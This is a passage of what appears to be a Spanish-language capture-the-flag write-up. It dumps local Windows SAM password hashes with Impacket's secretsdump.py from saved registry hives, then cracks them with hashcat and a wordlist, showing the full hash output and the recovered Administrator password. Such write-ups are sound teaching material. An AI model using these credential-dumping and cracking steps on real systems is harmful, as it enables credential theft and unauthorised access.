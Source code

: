 Y conseguimos los hashes LM:NT de los usuarios de este equipo.
```console
$ secretsdump.py -sam sam -system system LOCAL
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] Target system bootKey: 0x44397c32a634e3d8d8f64bff8c614af7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
[*] Cleaning up... 
```

Podemos guardar los hashes a un fichero.
```console
$ cat hashes.txt 
a29f7623fd11550def0192de9246f46b
31d6cfe0d16ae931b73c59d7e0c089c0
31d6cfe0d16ae931b73c59d7e0c089c0
24571eab88ac0e2dcef127b8e9ad4740
29ab86c5c4d2aab957763e5c1720486d
```

Y podemos intentar crackearlos con `hashcat`
```console
$ hashcat -a 0 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt

....
31d6cfe0d16ae931b73c59d7e0c089c0:                                                                                                                 
a29f7623fd11550def0192de9246f46b:Password@123
```

![Write-up Image](images/Screenshot_15.png)

Conseguimos crackear el hash de la cuenta de invitados que no tiene credencial.

Y el hash de la cuenta del administrador que corresponde a `Password@123`
